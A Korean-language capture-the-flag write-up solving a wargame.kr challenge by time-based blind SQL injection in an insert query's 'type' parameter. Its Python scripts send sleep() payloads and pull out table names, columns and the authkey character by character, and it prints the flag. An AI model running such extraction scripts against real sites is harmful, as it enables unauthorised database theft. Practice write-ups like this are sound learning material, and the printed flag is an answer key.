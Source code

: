 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-01-03-00-45-55.png)

# **Write-Up**

javascript 연습 페이지라고 한다.

![](images/2022-01-03-00-46-19.png)

뭔가를 입력하고 데이터를 전달할 만한 곳은 to JSMaster밖에 없다.

![](images/2022-01-03-00-46-22.png)

전송되는 데이터는 cont와 mail과 type이라는 변수 뿐이다.

![](images/2022-01-03-00-46-26.png)

문제에서 Insert query를 이용한 SQLi라고 한다. type에 sleep함수를 이용하여 쿼리가 통하는 지 확인한다.

```python
import urllib
import urllib.request
import time

url     = 'http://wargame.kr:8080/qna/?page=to_jsmaster'
headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 6.1; Win64; x64)', 'Content-Type': 'application/x-www-form-urlencoded'}
try:
    start_time  = time.time()
    query       = 'sleep(5)'
    params      = urllib.parse.urlencode({'cont':'hello', 'mail':'world', 'type':query}).encode()
    request     = urllib.request.Request(url, headers = headers, data = params)
    response    = urllib.request.urlopen(request)
    delay_time  = int(time.time() - start_time)
    print(delay_time)
except Exception as e:
    print(e)

[Output]
5
```

네트워크 지연에 의한 5초일 수 도 있으니 sleep(0)을 보내 응답까지 걸리는 시간을 확인해보면 쿼리가 적용되는 것을 확인할 수 있다.

```python
... 생략 ...
    query       = 'sleep(0)'
... 생략 ...

[Output]
0
```

and를 이용하여 sleep을 해보자

```python
# True
... 생략 ...
    query       = '1=1 and sleep(3)'
... 생략 ...

[Output]
3

# False
... 생략 ...
    query       = '1=3 and sleep(3)'
... 생략 ...

[Output]
0
```

select from information_schema와 substr함수와 select ord를 이용하여 ascii값과 대조하며 참일 때, sleep을 주어 테이블 명을 알아낸다.

```python
import urllib
import urllib.request
import time
import string

for i in range(70, 90):
    table_name = ''
    for j in range(1, 50):
        old_len = len(table_name)
        for ascii_set in string.printable:
            try:
                start_time  = time.time()
                query       = '({}=(select ord(substr((select table_name from information_schema.tables limit {},1), {},1))) and sleep(3))'.format(ord(ascii_set), i, j)
                params      = urllib.parse.urlencode({'cont':'hello', 'mail':'world', 'type':query}).encode()
                request     = urllib.request.Request(url, headers = headers, data = params)
                response    = urllib.request.urlopen(request)
                delay_time  = int(time.time() - start_time)
                if delay_time >= 2:
                    table_name += ascii_set
                    break
            except Exception as e:
                print(e)
        if old_len == len(table_name): break
    if table_name == '': break
    print('[{}] {}'.format(i, table_name))

[Output]
[70] authkey
... 생략 ...
```

컬럼 명을 알아낸다.

```python
import urllib
import urllib.request
import time
import string

url     = 'http://wargame.kr:8080/qna/?page=to_jsmaster'
headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 6.1; Win64; x64)', 'Content-Type': 'application/x-www-form-urlencoded'}

for i in range(697, 700):
... 생략 ...
                query       = '({}=(select ord(substr((select column_name from information_schema.columns limit {},1), {},1))) and sleep(3))'.format(ord(ascii_set), i, j)
... 생략 ...

[Output]
[697] authkey
... 생략 ...
```

FLAG를 획득한다.

```python
import urllib
import urllib.request
import time
import string

url     = 'http://wargame.kr:8080/qna/?page=to_jsmaster'
headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 6.1; Win64; x64)', 'Content-Type': 'application/x-www-form-urlencoded'}

for i in range(0, 10):
... 생략 ...
                query       = '({}=(select ord(substr((select authkey from authkey limit {},1), {},1))) and sleep(3))'.format(ord(ascii_set), i, j)
... 생략 ...

[Output]
[0] ddc6394946018f86af4069b31471572ce97b67cc
```


# **FLAG**

**ddc6394946018f86af4069b31471572ce97b67cc**